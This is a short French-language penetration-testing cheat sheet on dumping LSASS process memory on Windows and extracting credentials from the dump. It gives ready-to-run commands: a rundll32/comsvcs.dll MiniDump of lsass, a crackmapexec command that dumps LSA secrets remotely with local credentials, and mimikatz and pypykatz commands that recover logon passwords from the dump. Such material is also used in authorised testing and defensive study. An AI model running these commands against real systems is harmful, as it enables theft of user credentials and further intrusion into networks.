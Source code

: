 ```yaml
---
public: true # set to true to make the article publishable
---
```


## DUMP de LSASS

## Localement
### Génération d'un dump via le gestionnaire de tâches

Bouton droit sur  le processus > Créer un fichier dump
Le fichier est créé dans le dossier %TEMP%

### Rundll32.exe & Comsvcs.dll
-  Trouver le pid de lsass : 
	- `tasklist /svc`
	- `Get-Process lsass`
- Créer le dump (pid = 672) :
	- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`




## A distance
```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
```

## Extraction d'informations d'identification

```
# depuis windows dans mimikatz : (ne touche qu'au dump, pas au precessus)
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords

# depuis linux
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```